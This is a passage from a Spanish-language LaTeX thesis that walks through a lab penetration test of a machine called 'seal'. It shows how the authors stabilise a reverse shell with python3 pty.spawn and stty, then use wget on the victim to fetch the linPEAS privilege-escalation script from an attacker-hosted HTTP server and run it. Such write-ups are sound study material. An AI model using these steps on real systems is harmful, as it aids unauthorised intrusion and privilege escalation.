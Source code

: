 Ya que el shell que obtenemos es algo rudimentario (no nos permite utilizar las flechas de movimiento, o funciones de búsqueda), decidimos mejorarlo. Para ello se realizan los siguientes pasos:
\begin{enumerate}
    \item Primero, investigamos si está \textit{Python} instalado, utilizando el comando \texttt{which python python2 python3}. Con esto descubrimos que podemos utilizar \textit{Python 3}.
    \item Ejecutamos el siguiente comando en la máquina víctima: \texttt{python3 -c `import pty; pty.spawn(``/bin/bash``)`}
    \item En la máquina, pulsamos los botones \texttt{Ctrl + z} para dormir el proceso actual.
    \item Luego, en la máquina host (no la víctima) se escribe \texttt{stty raw -echo}.
    \item Volvemos a activar el proceso dormido anteriormente con \texttt{fg}.
    \item Se crean las siguientes variables de entorno \texttt{export SHELL=bash \&\& export TERM=xterm-256color}
    \item Por último, se ejecuta el comando \texttt{reset}.
\end{enumerate}

Tras realizar esto, logramos tener un shell completamente funcional.\\

A continuación se decide utilizar la herramienta \textit{linPEAS}\cite{peass}. Para añadir el script a la víctima, se decide levantar un servidor \acrshort{http} temporal en la máquina host que contiene el script \texttt{linpeas.sh}. Esto se hace con el comando:
\begin{lstlisting}[language=bash]
python -m http.server 8000
\end{lstlisting}

Y en la máquina víctima nos lo vajamos con \texttt{wget}.

\begin{lstlisting}[language=bash]
wget http://10.10.14.49:8000/linpeas.sh
\end{lstlisting}

Una vez tenemos el archivo en la máquina víctima, le damos permisos de ejecución (\texttt{chmod +x linpeas.sh}) y lo ejecutamos.\\

El resultado de \textit{linPEAS}\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/04_linpeas_tomcat.txt}{Output de \textit{04\_linpeas\_tomcat.txt}}}, encontramos varios posibles vectores de ataque, pero ninguno ha resultado ser explotable. También se han encontrado algunos archivos ``extraños`` como \texttt{/otp/backups/archives/} y \texttt{/otp/backups/playground/} y archivos y procesos del usuario \textit{luis}.\\

